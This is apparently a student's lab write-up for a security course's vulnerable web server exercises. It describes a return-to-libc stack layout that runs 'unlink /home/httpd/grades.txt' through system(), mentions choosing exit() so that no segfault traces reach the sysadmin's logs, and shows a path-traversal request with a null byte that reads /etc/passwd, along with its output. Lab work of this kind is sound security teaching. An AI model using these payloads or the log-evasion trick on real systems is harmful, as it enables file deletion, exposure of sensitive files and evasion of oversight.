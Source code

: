 When we use the exit() function the program will terminate gracefully and will not leave any marks in the system that would show any possible arbitrary use. If we would use some random bytes for padding, when the program terminates it would leave information for the sysadmin in the logs:

    Jun 29 12:59:12 vm-6858 kernel: [ 8325.355822] zookd-nxstack[2365]: segfault at 4b434148 ip 4b434148 sp bfffee34 error 14
    
The final layout looks like this:

     AAAAAAAAAAAAAA   0xb7e6b100     0xb7e5e150     0xbffff8c5
    |--------------|--------------|--------------|--------------|
         buffer         system()       exit()         RM env
         
The exploits for this exercise can be found from [exploit-4a.py](https://github.com/ukk1/ITKST53/blob/master/Lab1/exploit-4a.py) and [exploit-4b.py](https://github.com/ukk1/ITKST53/blob/master/Lab1/exploit-4b.py) files. They use different techniques, the exploit-4a.py uses the unlink system call and locates the /home/httpd/grades.txt string from the buffer. The exploit-4b.py uses an environment variable and system() function call, which executes the following environment variable "unlink /home/httpd/grades.txt"

--------

###Exercise 5

There is a local file inclusion vulnerability, which allows us to read files from the zoobar web directory. This vulnerability allows us to go through the source code of the python scripts from the server or other sensitive files, such as passwd. This vulnerability presents a clear security risk since it exposes sensitive configuration files and source code to users.

The web server should have some sort of Access Control List (ACL) in place that checks and validates if users have access or permissions to run specific files in the environment.

    [http.c:301]
    void http_serve_none(int fd, const char *pn)
    {
        http_err(fd, 404, "File does not exist: %s", pn);
    }

    http://192.168.239.153:8080/zoobar/../../../../../../../../../../../../../../../../etc/passwd%00index.cgi/

    HTTP/1.0 200 OK
    Content-Type: text/html

    root:x:0:0:root:/root:/bin/bash
    ...snip...
    sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
    colord:x:104:110:colord colour management daemon,,,:/var/lib/colord:/bin/false
    httpd:x:1000:1000:Ubuntu,,,:/home/httpd:/bin/bash

